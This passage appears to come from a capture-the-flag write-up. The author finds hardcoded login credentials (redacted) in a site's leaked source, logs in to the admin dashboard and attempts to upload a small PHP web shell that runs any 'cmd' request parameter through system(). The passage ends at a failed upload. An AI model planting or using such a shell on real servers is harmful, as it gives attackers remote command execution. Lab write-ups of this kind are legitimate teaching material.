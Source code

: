 Now we have the source code of the web site. Looking at `login.php` reveals us the credential that we can use to log in on the website.
```php
if($username === "<REDACTED>" && md5($password) === "<REDACTED>")
```
Let's browse to `admin.php` and log in to the website. If we log in successfully we will be redirected to `dashboard.php`:
&nbsp;
![dashboard page](dashboard-1.jpg)
&nbsp;
Now we can browse to `upload.php` to upload the file. Let's try to upload our *reverse shell* to the server. My *reverse shell* script is named `reverse-shell.php` and looks fairly simple like this:
```php
<?php
        $cmd = $_REQUEST["cmd"];
        echo(system($cmd));
?>
```
Let's try to upload it:
&nbsp;
![upload fail](up-fail-1.jpg)